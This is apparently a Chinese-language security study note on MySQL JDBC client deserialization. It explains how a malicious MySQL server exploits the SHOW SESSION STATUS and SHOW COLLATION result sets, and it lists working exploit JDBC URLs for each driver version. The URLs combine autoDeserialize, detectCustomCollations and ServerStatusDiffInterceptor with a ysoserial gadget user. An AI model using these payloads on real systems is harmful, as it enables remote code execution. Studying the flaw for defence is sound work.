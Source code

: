 ```yaml
---
title: "MySQL JDBC反序列化漏洞"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:38:36+08:00
tags: ["java"]
draft: false
---
```


如果攻击者能够控制 JDBC 连接设置项，那么就可以通过设置其指向恶意 MySQL 服务器进行
ObjectInputStream.readObject()的反序列化攻击从而 RCE。

具体点说，就是通过 JDBC 连接 MySQL 服务端时，会有几个内置的 SQL 查询语句要执行，其中两
个查询的结果集在 MySQL 客户端被处理时会调用 ObjectInputStream.readObject()进行反序
列化操作。如果攻击者搭建恶意 MySQL 服务器来控制这两个查询的结果集，并且攻击者可以
控制 JDBC 连接设置项，那么就能触发 MySQL JDBC 客户端反序列化漏洞。

可被利用的两条查询语句：

-   SHOW SESSION STATUS
-   SHOW COLLATION

相关：[JDBC Attack]({{< relref "jdbc_attack.md" >}})


## JDBC 连接参数 {#jdbc-连接参数}


### tatementInterceptors {#tatementinterceptors}

该连接参数是用于指定实现 com.mysql.jdbc.StatementInterceptor 接口的类的逗号分隔
列表的参数。这些拦截器可用于通过在查询执行和结果返回之间插入自定义逻辑来影响查询
执行的结果，这些拦截器将被添加到一个链中，第一个拦截器返回的结果将被传递到第二个
拦截器，以此类推。在 8.0 中被 queryInterceptors 参数替代


### queryInterceptors {#queryinterceptors}

一个逗号分割的 Class 列表（实现了 com.mysql.cj.interceptors.QueryInterceptor 接口的
Class），在 Query"之间"进行执行来影响结果。（效果上来看是在 Query 执行前后各插入一
次操作）


### autoDeserialize {#autodeserialize}

自动检测与反序列化存在 BLOB 字段中的对象


### detectCustomCollations {#detectcustomcollations}

驱动程序是否应该检测服务器上安装的自定义字符集/排序规则，如果此选项设置为“true”，
驱动程序会在每次建立连接时从服务器获取实际的字符集/排序规则。这可能会显着减慢连
接初始化速度


## 利用链：detectCustomCollations {#利用链-detectcustomcollations}

-   5.1.19-5.1.28
    jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;user=yso_JRE8u20_calc

-   5.1.29-5.1.48
    jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&amp;autoDeserialize=true&amp;user=yso_JRE8u20_calc

-   5.1.49：不可用

-   6.0.2-6.0.6
    jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&amp;autoDeserialize=true&amp;user=yso_JRE8u20_calc

-   8.x.x ：不可用


## 利用链：ServerStatusDiffInterceptor {#利用链-serverstatusdiffinterceptor}

-   5.1.0-5.1.10
    jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc
    连接后需执行查询

-   5.1.11-5.x.xx
    jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc

-   6.x
    jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc
    （包名中添加 cj）

-   8.0.20 以下
    jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc
